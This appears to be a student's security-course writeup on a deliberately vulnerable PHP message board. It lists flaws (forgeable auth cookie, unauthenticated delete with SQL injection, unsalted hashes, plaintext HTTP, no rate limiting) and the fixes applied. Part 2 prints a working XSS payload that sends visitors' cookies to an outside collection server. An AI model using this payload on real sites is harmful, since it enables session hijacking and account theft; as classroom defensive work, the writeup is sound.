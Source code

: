 # Project Writeup

Bradley Rosenfeld - COS342, 11/14/15

## Part 1.

1. The application tries to prevent access to messages by checking for the existence of a cookie that is created when the user is authenticated and logged in. Messages can be deleted by visiting a GET URL, the link to which is only visible when the user who is viewing the message has a cookie that matches the user who created the message. Even worse, the deletion action is vulnerable to SQL injection which would allow any user to delete any post or worse.

 Unfortunately, these security policies are not adequate to prevent unauthorized access. Malicious users can easily create a cookie called "hackme" which contains the username which they wish to target. The actual message deletion action doesn't check to see if the user is authorized, anyone can enter an arbitrary message ID which they wish to delete. 

 In order to fix this I implemented PHP sessions. Rather than sending the actual username and password as a cookie, a unique session ID is set which an attacker wouldn't be able to guess (they could snoop for it, but that is addressed later). The application then checks for the existence of the session ID and makes sure it is valid. Similarly, the deletion action will check to make sure the user is actually authorized and that the ID provided is valid.

2. The database only contains password hashes. The passwords are not hashed with a strong algorithm and they are not salted resulting in duplication of hashes.

3. Attackers can easily snoop for user credentials for multiple reasons. Since the site is not HTTPS, usernames and passwords are sent via plantext over the network. Furthermore, the username and hashed password are stored in cookies which are sent with every network request. It would be trivial to snoop for credentials.

 To fully fix this, I would need to enable HTTPS. But I did stop saving the username and password in a cookie. Instead I use a unique PHP session ID for further authentication.

4. Login attempts are not rate limited, making brute force attacks trival.
 
 I fixed this by slowing down the number of attempts allowed per minute on a user.

5. No password scheme was implemented, users could submit anything as a password.

## Part 2

The attacker could post an image that fails to load, forcing JS to run. In this case, I wrote a simple script that sends the user's cookie to the remote server.

```
<img src="fdfjkdfjfkjdfdf.dfdjf" onerror="this.src=\'http://10.121.20.103/hackme-xss.php?c=\' + document.cookie">
```

If you're on the Taylor University network, you can view the result of this attack by visiting [10.121.20.103/hackme-xss.php](http://10.121.20.103/hackme-xss.php)

In order to fix this, I disabled all usage of HTML in messages by using the `htmlspecialchars` function in PHP when rendering the user submitted content.

